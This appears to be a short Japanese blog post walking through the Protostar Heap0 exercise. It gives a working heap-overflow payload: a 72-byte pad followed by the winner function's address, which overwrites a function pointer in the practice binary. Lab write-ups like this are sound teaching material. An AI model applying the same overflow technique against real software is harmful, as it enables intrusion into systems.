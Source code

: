 ```yaml
---
layout: post
alias: "/blog/2016/01/22/exploit-exercises-protostar-heap0/"
date: 2016-01-22T14:09:07+09:00
tags: [ "ctf", "writeup", "exploit-exercises", "heap", "heap-overflow", "buffer-overflow" ]
---
```


# Exploit Exercises Protostar Heap0

いきなり難しいのでなくて、ちゃんとこのレベルから用意されてあるのはよいと思う。

## [Protostar Heap0](https://exploit-exercises.com/protostar/heap0/)

`malloc`で返されるアドレス間の距離が実行ごとに変化することはない。

``` sh
$ ./heap0 '' ''
data is at 0x9afb008, fp is at 0x9afb050
level has not been passed

$ echo $[0x9afb050 - 0x9afb008]
72

$ readelf -s heap0 | grep '\<winner\>'
    55: 08048464    20 FUNC    GLOBAL DEFAULT   14 winner

$ ./heap0 $(perl -e 'print "A"x72, "\x64\x84\x04\x08"')
data is at 0x8522008, fp is at 0x8522050
level passed
```
